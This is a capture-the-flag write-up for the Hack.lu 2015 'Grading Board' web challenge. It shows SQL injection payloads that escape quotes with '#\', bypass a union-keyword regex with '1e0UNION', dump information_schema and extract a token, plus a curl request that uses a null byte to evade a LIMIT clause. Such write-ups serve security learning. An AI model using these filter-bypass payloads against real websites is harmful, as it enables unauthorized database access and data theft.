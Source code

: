 #Hack.lu 2015 Grading Board [web] 300

#Problem
You are sitting in your computer science class and are already done with your assignment (well, who would have guessed that). But you know that even though you did a perfect job (obviously) your teacher will give you a shitty grade because he can't stand your face.<br>
Well well well, it is time to put your skills on the table and show that son of a ... (you know the word I am looking for)... who the boss is. Thanks to the Ashley Madison dump and the stupidity of your teacher (seriously, how can he even teach the class...) you got the login credentials to the grading board.<br>
But, unlucky for you, your shithead of class mate found a vulnerability inside the website and went all whitehat on that shit and reported it (believe me I know ....in a different world...), he was also tasked to improve the security of the system.<br>
Fortunately for you, he left his phone unlocked and unattended, which allowed you to forward yourself the email containing the patch for the website, .... end to end encryption out of the window right there....,<br>
Alright son, get your shit together and let's get cracking<br>

Here is the [patch](https://school.fluxfingers.net/static/chals/patch_953dc87b784435d237b33a4f2fc20612.diff)!
And the [Website](https://school.fluxfingers.net:1506/)

The login credentials are:<br>
Username: kdavis<br>
Password: trolo!Fool<br>

##Solution
The website is divided into two parts: search and login.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/1.png)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/2.png)

The account for signing in is given in the problem description. After login, the website will ask for token.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/3.png)

After taking a look at the patch file, I saw following sql code:
<pre>
<code>
select id, first_name, last_name from students
WHERE first_name='$name'
   OR last_name='$name' ORDER BY id ASC LIMIT 5;
</code>
</pre>

And the blacklist replaced **'**, **"**, **/** and * , So it was possible to use '**#\**' to escape the single quote. The SQL syntax would become:
<pre>
<code>
select id, first\_name, last\_name from students
            WHERE first_name='<SQLi>#\' OR last_name='<SQLi>#\' ORDER BY id ASC LIMIT 5;
</code>
</pre>

<br>After trying "**OR 1=1 #\**" as input, the SQLi worked.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/4.png)

Also, the patch tried to disable union SQLi by regex: [^a-zA-Z0-9\_]union[^a-zA-Z0-9\_]<br>
But we still have some ways to bypass the limitation.<br>
[Union Bypass Reference](https://github.com/client9/libinjection/blob/master/data/sqli-rsalgado-bhusa2013.txt)<br>
In the reference, it showed that SQL syntax still worked with content "OR 1=1**e0**Union...". We could use this trick to bypass the above limitation.<br>

In the patch, it told us how the table name was generated and all the column names we had in the table, but it was also easy to use information\_schema to get all the information we needed. Just entered following input:
<pre><code>
AND 1=1e0UNION SELECT table_schema, table_name, column_name FROM information_schema.columns#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/5.png)<br>
The table name and column name were there!<br>

And then we entered following input:
<pre><code>
AND 1=1e0UNION SELECT 1, 2, token FROM t608f2cde509866e#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/6.png)

After summiting the token, I got the flag. :)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/flag.png)

<br>
Note:<br>
It's also able to bypass the limit of "LIMIT 5" by using null byte. We can modify our input as following and use curl to send our post request:
<pre><code>
curl -X POST --data "name=AND 1=1e0union select table_schema, table_name, column_name FROM information_schema.columns;%00\&site=default&action=search" https://school.fluxfingers.net:1506/
</code></pre>
And you can get the whole results instead of 5 columns only.

